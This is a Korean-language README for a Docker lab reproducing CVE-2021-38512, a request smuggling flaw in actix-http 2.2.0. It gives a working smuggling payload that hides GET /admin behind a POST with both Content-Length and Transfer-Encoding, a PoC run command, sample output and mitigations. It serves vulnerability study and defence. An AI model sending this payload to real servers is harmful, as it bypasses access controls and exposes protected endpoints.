




# CVE-2021-38512 actix-http Request Smuggling

## 요약

CVE-2021-38512는 Rust `actix-http`의 HTTP/1 요청 처리 문제로 발생하는 request smuggling 취약점이다.

Request smuggling은 프론트엔드와 백엔드가 같은 HTTP 바이트 스트림의 요청 경계를 서로 다르게 해석할 때 발생한다. 공격자는 정상 요청처럼 보이는 요청 뒤에 다른 HTTP 요청을 숨겨 넣을 수 있으며, 백엔드가 숨겨진 요청을 별도 요청으로 처리하면 프론트엔드의 접근 제어 정책을 우회할 수 있다.

본 실습에서는 프론트엔드가 직접 `/admin` 접근은 차단하지만, `Content-Length`와 `Transfer-Encoding`이 동시에 존재하는 모호한 HTTP 요청을 백엔드로 그대로 전달하는 상황을 구성한다. 이때 취약한 `actix-http 2.2.0` 백엔드가 숨겨진 `GET /admin` 요청을 처리하는지 확인한다.

## 환경 설정

```bash
docker compose up --build -d
```

| 컨테이너 | 역할 |
|---|---|
| `frontend` (`:8080`) | 정상 HTML 페이지를 제공하고 `/admin` 직접 접근을 차단하는 프론트엔드 웹 서버 |
| `backend` | `actix-web 3.3.2` / `actix-http 2.2.0`을 사용하는 취약 백엔드 서버 |

`frontend`는 `/`에서 일반 HTML 페이지를 제공하고, 직접적인 `GET /admin` 요청은 `403 Forbidden`으로 차단한다.

이 실습의 핵심은 프론트엔드가 `/admin` 접근 제어를 수행하고 있음에도, HTTP request smuggling으로 숨겨진 `/admin` 요청이 백엔드에서 처리될 수 있음을 보여주는 것이다.

## 취약 조건

다음 조건이 함께 만족될 때 취약점이 재현된다.

- 백엔드가 취약한 `actix-http 2.2.0`을 사용한다.
- 프론트엔드가 백엔드 앞단에 위치한다.
- 프론트엔드는 직접적인 `GET /admin` 요청을 차단한다.
- 프론트엔드는 `Content-Length`와 `Transfer-Encoding`이 동시에 존재하는 모호한 HTTP 요청을 정규화하거나 차단하지 않고 백엔드로 전달한다.
- 백엔드 `actix-http`가 chunked body 종료 뒤에 남은 데이터를 다음 HTTP 요청으로 처리한다.
- 백엔드에는 보호 대상인 `/admin` 라우트가 존재한다.

## 실행 방법

```bash
docker compose -f compose.yml up --build -d
```

컨테이너 상태를 확인한다.

```bash
docker compose -f compose.yml ps
```

## 정상 동작 확인

프론트엔드 기본 페이지를 확인한다.

```bash
curl -i http://localhost:8080/
```



직접 `/admin`에 접근하면 프론트엔드에서 차단된다.

```bash
curl -i http://localhost:8080/admin
```



이 단계는 `/admin` 경로가 프론트엔드에서 보호되고 있음을 확인하기 위한 것이다.

## PoC 코드

PoC는 `poc/poc.py`에 포함되어 있다.

핵심 payload는 다음과 같다.

```http
POST /public HTTP/1.1
Host: localhost
Content-Length: 4
Transfer-Encoding: chunked
Connection: keep-alive

0

GET /admin HTTP/1.1
Host: localhost
Connection: close
```

프론트엔드는 첫 요청줄만 보면 다음 요청으로 인식한다.

```text
POST /public HTTP/1.1
```

따라서 직접적인 `GET /admin` 요청이 아니므로 프론트엔드의 `/admin` 차단 정책에 걸리지 않는다.

하지만 백엔드의 `actix-http`는 chunked body가 `0\r\n\r\n`에서 끝났다고 해석한 뒤, 뒤에 남은 데이터를 다음 HTTP 요청으로 처리할 수 있다.

```text
GET /admin HTTP/1.1
```

그 결과 프론트엔드가 직접 보지 못한 `/admin` 요청이 백엔드에서 실행된다.

## PoC

PoC를 실행한다.

```bash
python3 poc/poc.py --host 127.0.0.1 --port 8080
```

PoC는 다음 순서로 동작한다.

1. 프론트엔드 기본 페이지 확인
2. 백엔드 `/hitlog` 초기화
3. 직접 `/admin` 요청이 프론트엔드에서 차단되는지 확인
4. 정상 공개 요청 확인
5. `POST /public` 요청 뒤에 `GET /admin`을 숨긴 smuggling payload 전송
6. `/hitlog`를 통해 백엔드가 `/admin` 요청을 처리했는지 확인

## 실행 결과

직접 `/admin` 요청은 프론트엔드에서 차단된다.

```text
[3] direct /admin request: should be blocked by frontend

HTTP/1.1 403 Forbidden
Content-Type: text/plain
Content-Length: 27
Connection: close

blocked by frontend policy
```

이후 smuggling payload를 전송한다.

```text
[5] smuggling payload: POST /public + hidden GET /admin
```

재현에 성공하면 응답 또는 `/hitlog`에서 `/admin` 처리 흔적을 확인할 수 있다.



또는 `/hitlog`에서 다음과 같은 기록이 확인된다.



`/admin` 기록이 남았다는 것은, 프론트엔드에서 직접 접근이 차단된 보호 경로가 smuggling payload를 통해 백엔드에서 처리되었음을 의미한다.

## 대응 방안

- `actix-http`를 패치된 버전으로 업그레이드한다.
  - `actix-http ^2.2.1`
  - 또는 `actix-http >=3.0.0-beta.9`
- 프론트엔드에서 `Content-Length`와 `Transfer-Encoding`이 동시에 존재하는 요청을 거부한다.
- 프론트엔드와 백엔드의 HTTP 파싱 정책을 일치시킨다.
- HTTP/1.1 keep-alive 환경에서 모호한 요청 경계가 발생하지 않도록 프록시 설정을 강화한다.